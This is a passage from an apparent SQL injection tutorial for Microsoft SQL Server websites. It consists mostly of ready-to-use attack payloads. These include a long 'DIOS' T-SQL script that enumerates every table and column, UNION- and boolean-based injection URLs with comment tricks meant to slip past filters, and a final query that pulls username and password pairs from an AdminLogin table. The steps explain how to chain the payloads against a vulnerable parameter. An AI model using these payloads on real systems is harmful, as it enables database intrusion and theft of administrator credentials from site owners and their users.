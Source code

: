 ;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Chall1 END--
```

#### How to use DIOS?

- This is a special case where DIOS store the payload into an environment variable. We will use the UNION based payload which we found the vulnerable column, this case we used:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

- Delete every number and **-- -** from the payload, so the payload will look like:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/```  

- Right in the end of the payload add the DIOS payload:  

```
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ ;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Kleiton0x00 END--
```  
- No output will be displayed because it is stored into an environment variable. We can access it by using one of the 2 following payload:  
  
  Union based query:  
  ```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,output,4-- -```  

  Boolean based query:  
  ```http://domain.com/index.php?id=1' and 1=cast(select output from Kleiton0x00)-- -```  

*NOTE: Replace the vulnerable column number (this case it was **3**). The number is found with UNION based payloads we did on the previous step.*  

- Look at the error message/website, the retrieved informations are shown.

![dios_dumped_db](https://i.imgur.com/OmWEciR.jpg)  

### Dumping data inside columns

We know what the tables and columns are (from DIOS or manual dumping), however DIOS is much more recommended as it saves time and effort.

This is a piece of the whole database that we will dump:

**Table name**: *AdminLogin*  
**Columns**: *username*, *password* 

```http://domain.com/index.php?id=1' and 1=(select username %2b ':' %2b password from AdminLogin for xml PATH("))-- -```

![column_dumped](https://i.imgur.com/OwfunVg.jpg)
